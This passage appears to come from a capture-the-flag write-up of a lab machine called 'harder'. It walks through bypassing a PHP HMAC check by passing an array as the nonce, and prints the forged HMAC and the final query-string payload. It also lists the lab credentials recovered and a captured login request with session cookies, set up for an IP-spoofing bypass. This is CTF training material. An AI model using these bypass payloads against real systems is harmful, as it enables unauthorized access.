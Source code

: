 Researching some ways for bypassing an HMAC check, I came across this article:

[Spot The Bug challenge 2018 warm-up](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up#spot-the-bug-2018)

To make **hash_hmac** return **false**, we need to supply an array for the **nonce** value. 

We need to generate a new HMAC like the following:

<pre>HMAC = hash_hmac(SHA256, $_POST['host'], false)</pre>

So, according to the article, we can use this new generated HMAC:

<pre>hash_hmac('sha256', "securify.nl", false) = c8ef9458af67da9c9086078ad3acc8ae71713af4e27d35fd8d02d0078f7ca3f5</pre>

This is an example of a payload, taken from the website:

<pre>?nonce[]=&hostname=securify.nl&hmac=c8ef9458af67da9c9086078ad3acc8ae71713af4e27d35fd8d02d0078f7ca3f5</pre>

Let's change the variable names as our code will be slightly different. For example, nonce = n, hostname = host, hmac = h. This is our final payload:

<pre>?n[]=&host=securify.nl&h=c8ef9458af67da9c9086078ad3acc8ae71713af4e27d35fd8d02d0078f7ca3f5</pre>

![final payload hmac](https://imgur.com/kgwc0PC.png)

We have some new credentials: 

<pre>evs:9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm</pre>

I also added this domain to my etc hosts file: shell.harder.local/

Logging in with the new credentials, we see this:

![IP not allowed](https://imgur.com/F2rfOrY.png)

This could be a simple WAF, where we can forge our IP by intercepting and modifying the web request. Here is what I captured with Burpsuite:

<pre>POST /index.php HTTP/1.1
Host: shell.harder.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://shell.harder.local/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Origin: http://shell.harder.local
DNT: 1
Connection: close
Cookie: PHPSESSID=p9pugodqv3p3do7k17pk6tvn10; login_user=evs; login_pass=2f9bb0db1b60ebadded465d641cc65eb
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
